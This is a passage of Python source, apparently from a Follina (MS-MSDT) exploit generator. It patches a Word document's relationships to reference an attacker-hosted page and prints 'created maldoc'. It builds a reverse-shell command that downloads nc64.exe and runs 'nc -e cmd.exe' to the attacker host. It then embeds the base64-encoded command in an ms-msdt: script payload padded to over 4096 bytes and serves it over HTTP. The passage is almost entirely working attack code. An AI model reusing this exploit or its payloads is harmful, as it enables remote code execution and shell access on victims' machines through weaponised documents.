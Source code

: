 ```
    serve_path = os.path.join(staging_dir, "www")
    os.makedirs(serve_path)

    # Modify the Word skeleton to include our HTTP server
    document_rels_path = os.path.join(
        staging_dir, doc_suffix, "word", "_rels", "document.xml.rels"
    )

    with open(document_rels_path) as filp:
        external_referral = filp.read()

    external_referral = external_referral.replace(
        "{staged_html}", f"http://{serve_host}:{args.port}/index.html"
    )

    with open(document_rels_path, "w") as filp:
        filp.write(external_referral)

    # Rebuild the original office file
    shutil.make_archive(args.output, "zip", doc_path)
    os.rename(args.output + ".zip", args.output)

    print(f"[+] created maldoc {args.output}")

    command = args.command
    if args.reverse:
        command = f"""Invoke-WebRequest https://github.com/JohnHammond/msdt-follina/blob/main/nc64.exe?raw=true -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""

    # Base64 encode our command so whitespace is respected
    base64_payload = base64.b64encode(command.encode("utf-8")).decode("utf-8")

    # Slap together a unique MS-MSDT payload that is over 4096 bytes at minimum
    html_payload = f"""<script>location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \\"IT_RebrowseForFile=? IT_LaunchMethod=ContextMenu IT_BrowseForFile=$(Invoke-Expression($(Invoke-Expression('[System.Text.Encoding]'+[char]58+[char]58+'UTF8.GetString([System.Convert]'+[char]58+[char]58+'FromBase64String('+[char]34+'{base64_payload}'+[char]34+'))'))))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe\\""; //"""
    html_payload += (
        "".join([random.choice(string.ascii_lowercase) for _ in range(4096)])
        + "\n</script>"
    )

    # Create our HTML endpoint
    with open(os.path.join(serve_path, "index.html"), "w") as filp:
        filp.write(html_payload)

    class ReuseTCPServer(socketserver.TCPServer):
        def server_bind(self):
            self.socket.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            self.socket.bind(self.server_address)

    class Handler(http.server.SimpleHTTPRequestHandler):
        def __init__(self, *args, **kwargs):
            super().__init__(*args, directory=serve_path, **kwargs)

        def log_message(self, format, *func_args):
            if args.reverse:
                return
            else:
                super().log_message(format, *func_args)

```